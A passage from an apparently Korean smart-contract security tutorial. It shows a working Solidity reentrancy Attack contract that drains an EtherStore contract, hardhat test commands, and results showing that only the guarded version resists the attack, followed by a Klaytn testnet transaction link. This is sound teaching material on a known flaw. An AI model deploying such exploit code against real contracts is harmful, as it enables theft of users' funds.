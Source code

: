 ```
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

```

테스트
```
npx hardhat test ./test/reEntrancyTest.ts
```

```
npx hardhat test ./test/reEntrancyTest2.ts
```

2개의 테스트 결과를 보면 


etherStore balance : etherStore BigNumber { value: "0" }
etherStore balance : etherStore BigNumber { value: "2000000000000000000" }

가드를 넣은 것만 정상작동하는 것을 볼 수가 있습니다.

이를 클레이튼 체인에 직접 해보겠습니다.

트랜잭션 영수증
https://baobab.scope.klaytn.com/tx/0x94691fa4f8e79199cce142ec98680dfe52a7be68770faf03790fbd1f41b8069c?tabId=internalTx
